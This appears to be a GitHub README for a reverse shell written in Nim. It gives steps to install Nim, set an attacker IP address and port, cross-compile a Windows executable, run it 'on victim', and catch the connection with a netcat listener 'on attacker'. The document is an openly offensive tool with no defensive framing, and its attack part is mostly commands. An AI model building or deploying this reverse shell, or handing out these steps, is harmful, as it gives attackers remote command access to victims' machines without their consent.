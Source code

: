 # nim_reverse_shell

## A simple reverse shell with nim code.

# How to build and run?

### Nim installation
```shell
sudo apt install nim -y
```

### Change this code fragment
```shell
var ip = "10.0.0.183"
var port = 1337
```

### Building and running
```shell
Build the reverse shell:
nim c --d:mingw --cpu=amd64 reverse.nim
On victim:
./reverse.exe
On Attacker:
nc -vnlp 1337
```
